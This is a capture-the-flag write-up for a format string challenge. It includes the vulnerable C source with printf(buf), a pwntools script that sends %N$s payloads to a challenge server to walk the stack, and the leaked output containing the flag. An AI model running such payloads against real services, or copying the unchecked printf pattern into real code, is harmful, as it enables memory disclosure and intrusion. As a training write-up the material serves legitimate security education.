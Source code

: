 # For Matt

## Pwn

### I went to print something but there's a For Matt problem?  Maybe you can figure out where the flag is.

This is clearly a format string exploit, even without looking at the code.

```C
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);

  char buf[64];
  char flag[64];
  char *flag_ptr = flag;

  // Set the gid to the effective gid
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("I'm testing a proof of concept.  You won't overflow the buffer.  This program will repeat whatever you input");

  FILE *file = fopen("flag.txt", "r");
  if (file == NULL) {
    printf("Where's the flag.txt file?\n");
    exit(0);
  }

  fgets(flag, sizeof(flag), file);

  while(1) {
    printf(": ");
    fgets(buf, sizeof(buf), stdin);
    printf(buf);
  }
  return 0;
}
```

The `printf(buf)` is the error.  It allows user input to be printed without a format specifier.

There are different types of format string exploits.  For this one, the flag is on the stack, so theoretically, we can print the stack down until we get the flag.  This is the script I used.  It rolls down the stack, printing a string and its position.

```python
from pwn import *
#elf = context.binary = ELF('./formatt', checksec=False)
#context.log_level = "DEBUG"

for i in range(50):
  try:
    p = remote('ctf.teractf.com', '2231')
    p.sendlineafter(b': ', '%{}$s'.format(i).encode())
    result = p.recvuntil(b': ')
    print(str(i) + ': ' + str(result))
    p.close()
  except EOFError:
    pass
```
This is the output with the flag!  :joy:

```sh
% python3 solver.py SILENT
0: b'%0$s\n: '
4: b'\n: '
5: b'(null)\n: '
6: b'\xe6\x7f\xfc\xf2\xff\x7f\n: '
10: b'teractf{1_m3ant_f0rmat_n0t_f0rMatt}\n\n: '
11: b'\x88$\xad\xfb\n: '
17: b'0t_f0rMatt}\n\n: '
19: b'(null)\n: '
25: b'(null)\n: '
26: b'(null)\n: '
27: b'\xf3\x0f\x1e\xfaUf\x0f\xef\xc0H\x89\xe5AWI\x89\xffAVAUATSH\x81\xec\x88\x02\n: '
28: b'@A\x9eg[U\n: '
30: b'0\x96\xd5\x8a\xfe\x7f\n: '
31: b'\x89\xc7\xe8\xcf\xd9\x01\n: '
32: b'\x88\xcd\xa4\xdcJV\n: '
33: b'\xe6/1$\xfe\x7f\n: '
35: b'\xf3\x0f\x1e\xfaUH\x89\xe5H\x81\xec\xc0\n: '
36: b'\xe6\x9f\x10\xb9\xfd\x7f\n: '
39: b'(null)\n: '
40: b'\xe0\xa1O\xe4}U\n: '
41: b'\xe0\xb2;|\xbf\x7f\n: '
45: b'(null)\n: '
46: b'(null)\n: '
48: b'\x01\n: '
```

**teractf{1_m3ant_f0rmat_n0t_f0rMatt}**
